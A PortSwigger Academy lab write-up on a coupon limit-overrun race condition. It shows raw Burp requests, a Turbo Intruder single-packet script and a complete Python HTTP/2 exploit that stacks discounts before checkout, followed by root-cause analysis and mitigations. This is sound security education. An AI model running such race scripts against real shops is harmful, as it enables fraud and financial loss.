



# Lab 01: Limit Overrun Race Conditions

> **Topic**: Race Conditions
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
Race Conditions — Limit Overrun via Parallel Request Flooding

## Vulnerability Summary
The application's checkout flow enforces a one-time-use restriction on the discount coupon `PROMO20` by checking whether it has already been applied before writing that fact to the database. Because the check and the write are two separate operations with no locking between them, a race window exists: if multiple requests arrive simultaneously, they all pass the "already applied?" check before any of them commits the "applied" flag. By sending 20 parallel `POST /cart/coupon` requests over a single HTTP/2 connection (single-packet attack), the coupon is applied multiple times in one round, reducing the $1337.00 jacket to an amount within the $50.00 store credit. The lab is solved by placing the order at the discounted price.

## Attack Methodology

### Step 1: Recon — Understand the Purchasing Flow
Logged in as `wiener:peter` and added a cheap item to the cart to study the flow without spending the store credit. Applied the `PROMO20` coupon once — it was accepted. Applied it a second time immediately — the server responded with `Coupon already applied`.

This confirms the restriction is enforced server-side per session. The coupon field is the target.



### Step 2: Identify the Race Window
Sent the `POST /cart/coupon` request to Burp Repeater and observed the normal single-request flow:

```
POST /cart/coupon HTTP/2
Host: 0a86000e0477cfde82237e70008b001f.web-security-academy.net
Cookie: session=B3Hnu2bGBZjfFc4gdclJNKyInruxH2j2
Content-Type: application/x-www-form-urlencoded
Content-Length: 52

csrf=<token>&coupon=PROMO20
```

Response on first apply:
```
HTTP/2 302 Found
Location: /cart

Coupon applied
```

Response on second apply:
```
HTTP/2 302 Found

Coupon already applied
```

The server-side logic is effectively:

```python
# Vulnerable pseudo-code
def apply_coupon(session, coupon):
    if coupon_already_used(session, coupon):   # READ
        return "Coupon already applied"
    apply_discount(session, coupon)            # WRITE
    mark_coupon_used(session, coupon)          # WRITE
```

The gap between the READ and the two WRITEs is the race window. If 20 requests all execute the READ before any of them executes the WRITE, all 20 pass the check and all 20 apply the discount.

### Step 3: Set Up Turbo Intruder for the Single-Packet Attack
Sent the `POST /cart/coupon` request to **Turbo Intruder**. Used the `race-single-packet-attack` template, which sends all requests over a single HTTP/2 connection so they arrive at the server in one TCP packet — eliminating network jitter and maximising the chance that all requests land inside the race window simultaneously.

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''POST /cart/coupon HTTP/2
Host: 0a86000e0477cfde82237e70008b001f.web-security-academy.net
Cookie: session=B3Hnu2bGBZjfFc4gdclJNKyInruxH2j2
Content-Length: 52
...

csrf=<token>&coupon=PROMO20'''

    engine.queue(request1, gate='race1')

def handleResponse(req, interesting):
    table.add(req)
```

Fired 20 requests simultaneously through the gate.



### Step 4: Observe the Race Condition Trigger
Turbo Intruder results showed all 20 requests returning `302` — and the response body for multiple rows read `Coupon applied` rather than `Coupon already applied`. The first 4 rows returned a response length of 6,075 (the full cart page with multiple discounts stacked), while the remaining 16 returned 1,519 (single discount). This length difference confirms that several requests slipped through the race window before the lock was written.

| Rows | Status | Length | Meaning |
|---|---|---|---|
| 0–3 | 302 | 6,075 | Multiple discounts applied (race winners) |
| 4–19 | 302 | 1,519 | Single discount (arrived after lock written) |



### Step 5: Purchase the Jacket
Cleared the cart, added the **Lightweight "l33t" Leather Jacket** ($1337.00), and repeated the parallel coupon attack. The stacked discounts brought the total below $50.00. Placed the order.

The final `POST /cart/coupon` in Burp Repeater confirmed the coupon was still being accepted:

```
POST /cart/coupon HTTP/2
Host: 0a86000e0477cfde82237e70008b001f.web-security-academy.net
Cookie: session=B3Hnu2bGBZjfFc4gdclJNKyInruxH2j2
Content-Type: application/x-www-form-urlencoded

csrf=IhcOtRXp3FqPPJsTCAxJCAWrErFKLT0W&coupon=PROMO20
```

Response:
```
HTTP/2 302 Found
Location: /cart
Content-Length: 14

Coupon applied
```

Lab solved.


## Technical Root Cause

```python
# Vulnerable — check and write are not atomic
def apply_coupon(session_id, coupon_code):
    used = db.query(
        "SELECT 1 FROM used_coupons WHERE session=? AND coupon=?",
        session_id, coupon_code
    )
    if used:
        return error("Coupon already applied")

    # Race window: another request can pass the check above
    # before this INSERT is committed
    db.execute(
        "INSERT INTO used_coupons (session, coupon) VALUES (?, ?)",
        session_id, coupon_code
    )
    apply_discount_to_cart(session_id, coupon_code)
```

The SELECT and INSERT are two separate database round-trips with no transaction isolation or row-level lock between them. Under concurrent load, multiple requests read `used = False` simultaneously, all proceed past the guard, and all insert the discount.

### Why HTTP/2 Makes This Reliable

With HTTP/1.1, parallel requests require multiple TCP connections. Network jitter means requests arrive at slightly different times, reducing the chance they all land inside the race window. HTTP/2 multiplexes all streams over a single TCP connection — the server receives all 20 request frames in one packet and dispatches them to worker threads simultaneously, maximising overlap.

| Technique | Requests | Arrival Spread | Race Success Rate |
|---|---|---|---|
| HTTP/1.1 threads | 20 | ~1–5ms jitter | Low / inconsistent |
| HTTP/2 single-packet | 20 | ~0ms (same packet) | High / reliable |

## Impact
- **Coupon Limit Bypass**: A one-time discount code can be applied an arbitrary number of times in a single attack, reducing any item price to near zero
- **Financial Loss**: The store sells items at a fraction of their intended price with no additional attacker privilege required — any authenticated user can exploit this
- **Scales to Other Limits**: The same primitive applies to any server-side limit enforced with a non-atomic check-then-write pattern: gift card redemptions, free trial activations, rate limits, transfer caps

## Proof of Concept

**Automated exploit (Python + httpx HTTP/2):**
```python
import asyncio, httpx, re

BASE = "https://<lab-id>.web-security-academy.net"

async def main():
    async with httpx.AsyncClient(http2=True, follow_redirects=True) as client:
        # Login
        r = await client.get(f"{BASE}/login")
        csrf = re.search(r'name="csrf"\s+value="([^"]+)"', r.text).group(1)
        await client.post(f"{BASE}/login", data={"csrf": csrf, "username": "wiener", "password": "peter"})

        # Add jacket
        await client.post(f"{BASE}/cart", data={"productId": "1", "quantity": "1", "redir": "PRODUCT"})

        # Race: 20 coupon requests over one HTTP/2 connection
        r = await client.get(f"{BASE}/cart")
        csrf = re.search(r'name="csrf"\s+value="([^"]+)"', r.text).group(1)
        await asyncio.gather(*[
            client.post(f"{BASE}/cart/coupon", data={"csrf": csrf, "coupon": "PROMO20"})
            for _ in range(20)
        ])

        # Checkout
        r = await client.get(f"{BASE}/cart")
        csrf = re.search(r'name="csrf"\s+value="([^"]+)"', r.text).group(1)
        await client.post(f"{BASE}/cart/checkout", data={"csrf": csrf})

asyncio.run(main())
```

## Key Takeaways
1. **Check-Then-Act Is Not Atomic**: Any pattern that reads a state, makes a decision, then writes a new state is vulnerable to a race condition if concurrent requests can interleave between the read and the write. The fix is to make the check and the write a single atomic operation.
2. **HTTP/2 Is the Enabler**: The single-packet attack removes network jitter as a variable. All requests arrive at the server simultaneously, making the race window reliably exploitable without needing thousands of attempts.
3. **One-Time Limits Are a Common Target**: Discount codes, gift cards, referral bonuses, free trials — any feature that enforces a "use once" rule with a non-atomic database pattern is vulnerable to this class of attack.
4. **Response Length Is the Signal**: In Turbo Intruder results, the difference in response length between rows (6,075 vs 1,519) was the indicator that multiple requests had won the race. When responses look identical by status code, always check length.
5. **The Fix Is One Line**: Wrapping the check and insert in a database transaction with `SELECT ... FOR UPDATE` or using an atomic `INSERT ... WHERE NOT EXISTS` eliminates the race window entirely.

## Mitigation

### 1. Atomic Insert with Unique Constraint
```sql
-- Database schema: enforce uniqueness at the DB level
CREATE UNIQUE INDEX idx_session_coupon ON used_coupons(session_id, coupon_code);
```

```python
def apply_coupon(session_id, coupon_code):
    try:
        db.execute(
            "INSERT INTO used_coupons (session_id, coupon_code) VALUES (?, ?)",
            session_id, coupon_code
        )
    except IntegrityError:
        return error("Coupon already applied")
    apply_discount_to_cart(session_id, coupon_code)
```

The unique constraint makes the INSERT fail atomically if the coupon was already used — no separate SELECT needed, no race window.

### 2. SELECT FOR UPDATE Inside a Transaction
```python
def apply_coupon(session_id, coupon_code):
    with db.transaction():
        used = db.query(
            "SELECT 1 FROM used_coupons WHERE session_id=? AND coupon_code=? FOR UPDATE",
            session_id, coupon_code
        )
        if used:
            return error("Coupon already applied")
        db.execute(
            "INSERT INTO used_coupons (session_id, coupon_code) VALUES (?, ?)",
            session_id, coupon_code
        )
        apply_discount_to_cart(session_id, coupon_code)
```

`FOR UPDATE` acquires a row-level lock on the SELECT, serialising concurrent requests for the same session/coupon pair.

### 3. Application-Level Mutex (Redis)
```python
import redis
r = redis.Redis()

def apply_coupon(session_id, coupon_code):
    lock_key = f"coupon_lock:{session_id}:{coupon_code}"
    # NX=only set if not exists, EX=expire after 5s
    acquired = r.set(lock_key, "1", nx=True, ex=5)
    if not acquired:
        return error("Coupon already applied")
    apply_discount_to_cart(session_id, coupon_code)
```

## References
- [PortSwigger Race Conditions — Limit Overrun](https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions)
- [PortSwigger Research — Smashing the State Machine](https://portswigger.net/research/smashing-the-state-machine)
- [CWE-362: Race Condition (Concurrent Execution)](https://cwe.mitre.org/data/definitions/362.html)
- [OWASP Testing Guide — Testing for Race Conditions](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_for_Race_Conditions)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, Turbo Intruder)
- Python 3 + httpx (HTTP/2 automated exploit)
- Chromium

---

*Lab completed on: 2026-05-14*
*Writeup by vibhxr*
